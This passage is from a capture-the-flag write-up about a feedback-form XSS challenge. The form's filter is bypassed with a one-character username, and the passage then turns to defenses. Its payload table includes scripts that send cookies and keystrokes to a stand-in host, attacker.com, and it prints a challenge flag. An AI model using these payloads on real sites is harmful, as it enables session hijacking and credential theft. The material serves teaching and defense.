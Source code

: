 #### 🏆 **Step 4 - Successful XSS Exploitation**
```
Form Submission:
Username: a
Feedback: <script>alert('XSS')</script>

Server Response: XSS payload executed in browser
Flag Revealed: 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
```

**Complete Attack Flow:**
1. 🔍 **Form Analysis** - Identify feedback form with username and message fields
2. 🧪 **XSS Testing** - Attempt standard JavaScript injection payloads
3. 🚫 **Filter Detection** - Discover XSS payloads blocked with longer usernames
4. 🔍 **Bypass Research** - Test various username lengths systematically
5. 💡 **Logic Flaw Discovery** - Single character username bypasses XSS filtering
6. 🎯 **Successful Exploitation** - Execute XSS payload with username "a"
7. 🎉 **Flag Recovery** - Access restricted content via XSS execution

### 🌍 XSS Attack Vectors & Variations

| Payload Type | Example | Bypass Technique | Effectiveness |
|--------------|---------|------------------|---------------|
| **🚨 Basic Alert** | `<script>alert('XSS')</script>` | Length-based filter bypass | High |
| **🍪 Cookie Theft** | `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>` | Single char username | Critical |
| **🔑 Session Hijacking** | `<script>new Image().src='//attacker.com/log?'+document.cookie</script>` | Bypass + exfiltration | Critical |
| **🎭 DOM Manipulation** | `<script>document.body.innerHTML='<h1>Hacked!</h1>'</script>` | Visual defacement | Medium |
| **📊 Keylogging** | `<script>document.onkeypress=function(e){fetch('//attacker.com/log?key='+e.key)}</script>` | Advanced persistence | Critical |

---

## 🛠️ Security Implementation

### ❌ vs ✅ Comparison

| 🚫 **Vulnerable Implementation** | ✅ **Secure Implementation** |
|--------------------------------|----------------------------|
| Length-based conditional filtering | Consistent input validation for all fields |
| Client-side XSS filtering only | Server-side input sanitization + CSP |
| Single validation condition | Multi-layer defense strategy |
| Logic flaw in validation flow | Comprehensive input validation framework |

### 🔒 Defense Strategies

**Input Validation & Sanitization:**
- [ ] **🧹 Consistent Sanitization** - Apply XSS filtering regardless of other field values
- [ ] **🔍 Server-Side Validation** - Never rely on client-side filtering alone
- [ ] **📝 Input Encoding** - Encode all user input before rendering
- [ ] **🚫 Blacklist vs Whitelist** - Use whitelist validation when possible
